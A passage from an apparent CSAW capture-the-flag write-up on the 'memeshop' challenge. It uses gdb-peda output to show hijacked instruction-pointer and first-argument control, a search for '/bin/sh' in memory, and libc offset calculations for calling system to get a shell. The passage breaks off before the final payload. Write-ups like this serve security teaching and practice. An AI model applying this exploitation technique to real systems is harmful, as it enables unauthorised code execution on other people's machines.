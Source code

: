 Continue in the debugger and check out in the memeshop. You hit the breakpoint and see:

```
RAX: 0x11a38f0 ("thanks mr skeletal")
[...]
=> 0x7fcc80e9bdaf <method_checkout+63>:	call   QWORD PTR [rax+0x8]
```

Just to reiterate:

```
gdb-peda$ x/gx $rax+0x8
0x11a38f8:	0x74656c656b732072
gdb-peda$ x/s $rax+0x8
0x11a38f8:	"r skeletal"
```

Yay $RIP control. Note the instruction just preceding it:

```
0x7fcc80e9bdac <method_checkout+60>:	mov    edi,DWORD PTR [rax+0x10]
```

That means you also have control of the first argument! So put a pointer to `/bin/sh` in there and call `system`. 

```
gdb-peda$ searchmem "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 5 results, display max 5 items:
          [heap] : 0x9706e0 --> 0x68732f6e69622f ('/bin/sh')
          [heap] : 0x9746a0 --> 0x68732f6e69622f ('/bin/sh')
libruby.so.2.2.0 : 0x7fcc80b91d04 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7fcc81b103b8 --> 0x68732f6e69622f ('/bin/sh')
libruby.so.2.1.0 : 0x7fcc82b4e151 --> 0x68732f6e69622f ('/bin/sh')
```

Well there's `/bin/sh` on the heap and in shared libraries... We can get library bases from `/proc/self/maps`, but heap stuff can be a bit more annoying. So let's get that libc offset...

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/bspar/.rvm/rubies/ruby-2.1.2/bin/ruby
[...]
0x00007fcc819ab000 0x00007fcc81b46000 r-xp	/usr/lib/libc-2.22.so
[...]
```

So the string `/bin/sh` is located at an offset of `0x7fcc81b103b8 - 0x00007fcc819ab000 = 0x1653B8` from the base of libc. So let's find the offset of system:

```
<bspar@bspararch:~/Documents/ctfs/csaw>
zsh/3 13960 % objdump -T /usr/lib/libc-2.22.so| grep system
[...]
000000000003f890  w   DF .text	000000000000002d  GLIBC_2.2.5 system
```
